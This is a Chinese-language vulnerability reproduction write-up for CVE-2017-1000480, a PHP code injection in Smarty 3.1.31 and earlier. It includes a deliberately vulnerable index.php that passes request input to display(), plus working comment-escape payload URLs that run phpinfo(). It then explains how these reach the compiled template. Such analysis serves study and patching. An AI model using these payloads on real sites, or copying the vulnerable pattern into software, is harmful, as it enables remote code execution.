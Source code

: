 # CVE-2017-1000480 Smarty<=3.1.31 命令执行RCE

### 一、漏洞简介

在不清理模板名称的自定义资源上调用fetch（）或display（）函数时，3.1.32之前的Smarty 3容易受到PHP代码注入的攻击。

### 二、漏洞影响

Smarty<=3.1.31、3.1.32-dev

### 三、复现过程

1、搭建环境

测试环境为： PHP5.6.40+Apache2+Smarty3.1.31+Debian9


```bash
➜  html mkdir smarty
➜  html cd smarty
➜  smarty mkdir cache compile templates
➜  smarty composer require smarty/smarty -v
➜  smarty sed -i -e 's/\^3.1/3.1.31/g' composer.json
➜  smarty composer update
➜  smarty sudo chmod -R 777 .
```

/var/www/html/smarty/index.php 如下：


```php
<?php
require './vendor/autoload.php';

class Smarty_Resource_Widget extends Smarty_Resource_Custom
{
    protected function fetch($name, &$source, &$mtime)
    {
        $template = "Smarty <=3.1.31 RCE (CVE-2017-1000480)";
        $source = $template;
        $mtime = time();
        return 'mochazz';
    }
}

$smarty = new Smarty();
$smarty->setCacheDir('cache');
$smarty->setCompileDir('compile');
$smarty->setTemplateDir('templates');

$my_security_policy = new Smarty_Security($smarty);
$smarty->enableSecurity($my_security_policy);
$smarty->registerResource('username', new Smarty_Resource_Widget());
$smarty->display('username:'.$_GET['mochazz']);

?>
```

2、漏洞分析

具体攻击 payload 如下：


```bash
http://url/index.php?mochazz=*/phpinfo();/*
```

![](images/15893403996138.jpg)


我们直接从 display 方法开始跟进，会发现其最终会调用 render 方法。在 render 方法分别进行了：生成compile文件名、写入compile文件并包含两个操作。

![](images/15893404068315.jpg)


在第一个操作：生成compile文件名时，我们传入 display 的参数会影响最终的 compile 文件名。例如下面两个 payload 生成的文件名是不一样的。


```bash
# 代码：$smarty->display('username:'.$_GET['mochazz']);

# payload1：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();/*
4f97532c32c10229713a39421c918cf16663bf6e_0.username.*.php

# payload2：http://0.0.0.0/smarty/index.php?mochazz=*/phpinfo();//
1e95a2d156a7edd4f6130643849a588dce4acb27_0.username.phpinfo();.php
```

这是因为 compile 文件名中，有一部分由 basename($source->name) 决定，这部分就是我们传入的 mochazz 参数。使用上面第一个 payload 时，文件名就会包含 * 号。在 Linux 系统下，文件名允许包含 * 号，但是 Windows 却不允许，这也是网络上部分文章说这个漏洞无法在 Windows 平台下利用。但是我们使用第二个 payload ，两个平台就都可以利用。

我们接着看第二个操作：写入 compile 文件并包含。首先，写入 compile 文件中的内容包含模板路径（即下图最后一行代码 $_template->source->filepath ），这个模板路径就是我们传入 display 方法的参数。虽然该参数被注释包裹，但是我们可以用 */ 闭合。写入 compile 文件，程序就开始包含该文件，最终导致代码执行（下图第137行）。

![](images/15893404260889.jpg)

